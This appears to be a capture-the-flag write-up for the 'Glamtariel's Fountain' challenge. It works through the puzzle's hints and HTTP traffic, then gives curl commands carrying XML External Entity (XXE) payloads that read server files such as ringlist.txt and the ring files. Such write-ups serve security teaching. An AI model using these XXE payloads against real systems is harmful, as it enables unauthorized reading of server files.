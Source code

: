 ```yaml
---
icon: material/xml
---
```


# Glamtariel's Fountain

**Difficulty**: :fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star::fontawesome-regular-star:<br/>
**Direct link**: [fountain website](https://glamtarielsfountain.com/)

## Objective

!!! question "Request"
    Stare into Glamtariel's fountain and see if you can find the ring! What is the filename of the ring she presents you? Talk to Hal Tandybuck in the Web Ring for hints.

??? quote "Akbowl"
    Huh - what? Why do you disturb Akbowl?<br/>
    I'm trying to get the ring in here for the Sporc Chief.<br/>
    Unlucky for me it's lost in this water basin thing.<br/>
    You will not get it out before Akbowl!


## Hints

??? hint "Significant CASE"
    Early parts of this challenge can be solved by focusing on Glamtariel's WORDS.

??? hint "eXternal Entities"
    Sometimes we can hit web pages with [XXE](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing) when they aren't expecting it!


## Solution

### Gathering additional information

While it might be tempting to dive right in and throwing HTTP requests around, it really helps to take a step back and take note of exactly what Glamtariel and the fountain are saying. As noted in one of the hints, responses containing uppercase words are important. So, let's start by dragging all three batches of four images onto both entities and collecting some additional hints.

!!! hint "Additional hints"
    1. I helped the elves to create the PATH here to make sure that only those invited can find their way here.
    2. I don't know why anyone would ever ask me to TAMPER with the cookie recipe. I know just how Kringle likes them.
    3. The elves do a great job making PATHs which are easy to follow once you see them.
    4. Kringle really dislikes it if anyone tries to TAMPER with the cookie recipe Glamtariel uses.
    5. Did you know that I speak in many TYPEs of languages? For simplicity, I usually only communicate with this one though.
    6. I pretty much stick to just one TYPE of language, it's a lot easier to share things that way.
    7. Careful with the fountain! I know what you were wondering about there. It's no cause for concern. The PATH here is closed!
    8. Between Glamtariel and Kringle, many who have tried to find the PATH here uninvited have ended up very disAPPointed.
    9. Wow!, what a beautiful silver ring! I don't have one of these. I keep a list of all my rings in my RINGLIST file.
    10. I never heard Glamtariel mention a RINGLIST file before. If only there were a way to get a peek at that.
    11. I like to keep track of all my rings using a SIMPLE FORMAT, although I usually don't like to discuss such things.
    12. You know, I've heard Glamtariel talk in her sleep about rings using a different TYPE of language.

Sentences containing uppercase words can be grouped into four categories: the risk of cookie tampering, a path we need to build, a different type of language spoken by the princess, and the ringlist file the princess uses to store her rings in.


### Inspecting HTTP requests and responses

With a solid list of additional hints in our back pocket, we can start taking a look at what exactly goes on behing the scenes when dragging images to either the princess or the fountain. Select the tabs below to get a better understanding of the relationship between the different UI elements and how they are represented in the associated HTTP traffic.

=== ":fontawesome-regular-image: Frontend - Rendered HTML"
    ![what3words](../img/objectives/o10/frontend.png)

=== ":material-chart-timeline: Backend - HTTP requests"
    ![Extract GPS coordinates using exiftool](../img/objectives/o10/backend.png)

Each time an image is dragged onto an entity, an HTTP POST request containing JSON data is sent to the `/dropped` URL path. The JSON data contains the image being dragged (1), who it was dragged to (2), and the type of request. Important to note is that each request also contains both a cookie and a [CSRF token](https://brightsec.com/blog/csrf-token/) (i.e., ticket) which is sent via the `X-Grinchum` HTTP request header (3).

The JSON data in the HTTP responses contains the message from the fountain (4) and the princess (5), who the image was dropped on, and a `visit` field containing either *none* or a path to an image (6). In the example above, the link points to the [`stage2ring-eyecu_2022.png`](../artifacts/objectives/o10/stage2ring-eyecu_2022.png) image which appears on screen right before moving to the stage with the four rings.

Using this information we can now use tools like [cURL](https://curl.se/), [Postman](https://www.postman.com/), [Paw](https://paw.cloud/), or even a [Python script](#automating) to partially or fully automate these HTTP requests so we don't have to go through the tedious task of manually dragging and dropping images.

```shell linenums="1" title="JSON HTTP requests via cURL"
export COOKIE='Cookie:MiniLembanh=COOKIE_VALUE_COPIED_FROM_WEB_BROWSER'
export GRINCHUM='X-Grinchum:TICKET_VALUE_COPIED_FROM_WEB_BROWSER'

curl -X POST https://glamtarielsfountain.com/dropped \
-H "Content-Type: application/json" \
-H "Accept: application/json" \
-H $GRINCHUM \
-H $COOKIE \
-d '{"imgDrop":"img2","who":"fountain","reqType":"json"}'
```

![cURL request](../img/objectives/o10/curl_request.png){ class=border }


### Accessing the ringlist

We know the princess speaks an additional type of language (i.e., XML) and she stores here rings in a ringlist. Putting together *disAPPointed* (i.e., `/app` root), *PATHs which are easy to follow* (i.e., `/static/images/`), *my RINGLIST file* (i.e., `ringlist`), and *using a SIMPLE FORMAT* (i.e., `.txt`) helps us to determine that the location of the ringlist file is `/app/static/images/ringlist.txt`.

We can now switch from JSON to XML HTTP requests and leverage [XML External Entity injection](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing) (XXE) to access the `ringlist.txt` file. We need to make sure that the `Content-Type` header and `ReqType` field are set to *application/xml* (line 2) and *xml* (line 11), respectively. The `imgDrop` field can be used to trigger the injection itself (lines 7 and 9).

```shell linenums="1" hl_lines="2 7 9 11" title="Accessing the ringlist through XXE injection"
curl -X POST https://glamtarielsfountain.com/dropped \
-H "Content-Type: application/xml" \
-H "Accept: application/json" \
-H $GRINCHUM \
-H $COOKIE \
-d '<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///app/static/images/ringlist.txt" >]>
<root>
<imgDrop>&xxe;</imgDrop>
<who>princess</who>
<reqType>xml</reqType>
</root>'
```

![Access the ringlist](../img/objectives/o10/access_ringlist.png){ class=border }


### Scavenger hunt

The princess' response to the ringlist request kicks off a mini scavenger hunt where every response returns a path to a PNG image holding a hint for the next request. The [first image](../artifacts/objectives/o10/pholder-morethantopsupersecret63842.png) is located at `static/images/pholder-morethantopsupersecret63842.png` and shows a pixelated folder named `x_phial_pholder_2022` which contains a `bluering.txt` and `redring.txt` file.

Trying to use XXE injection to access `/app/static/images/x_phial_pholder_2022/bluering.txt` or `/app/static/images/x_phial_pholder_2022/redring.txt` doesn't yield any results. However, keeping the path but changing the filename to `silverring.txt`, which we know the princess would really *really* like to add to her collection, takes us to the next step.

??? info "Rom Bambidil Easter egg"
    A request to access `/app/static/images/x_phial_pholder_2022/greenring.txt` results in a Lord of the Rings reference and [Easter egg](../easter_eggs.md#rom-bambidil)! :smile:

![Access the silver ring](../img/objectives/o10/access_silverring.png){ class=border }

The inscription on the red ring in the [second image](../artifacts/objectives/o10/redring-supersupersecret928164.png) tells us the next file is `goldring_to_be_deleted.txt`. Unfortunately, trying to access that file annoys the Princess somewhat and she tells us she thought we wanted her to look at the silver ring.

![Access the gold ring](../img/objectives/o10/access_goldring.png){ class=border }


### Exchanging the silver for the gold ring

To get the golden ring, we can't just straight up grab it from the princess. Instead, we need to exchange it for the silver ring. At the start of the challenge we determined that giving something to the princess for her to look at is done through the `imgDrop` field, which means we can't use that field for triggering XXE injection anymore. Instead, we need to use the REQ and TYPE hint from the latest response and swap our XXE injection to the `reqType` field.

![Exchange the gold ring](../img/objectives/o10/exchange_goldring.png){ class=border }

This time, we're given the [golden ring](../artifacts/objectives/o10/goldring-morethansupertopsecret76394734.png) and with that the answer to this challenge! :thumbsup:

!!! note "Automating the challenge using Python<span id="automating"></span>"
    Clicking and dragging images or copy/pasting cURL commands can become a little tedious. [This Python script](../tools/objectives/o10/send_requests.py) automates the process by retrieving a valid cookie and CSRF token (i.e., ticket), sending the initial JSON requests, executing the necessary XXE injections, and downloading all the image assets.

    ![Python script output](../img/objectives/o10/python_script_output.png)

!!! done "Answer"
    `goldring-morethansupertopsecret76394734.png`


## Response

!!! quote "Akbowl"
    No! That's not yours!<br/>
    This birdbath showed me images of this happening.<br/>
    But I didn't believe it because nobody is better than Akbowl!<br/>
    Akbowl's head is the hardest! That's what the other sporcs tell me.<br/>
    I guess Akbowl's head is not the smartest.
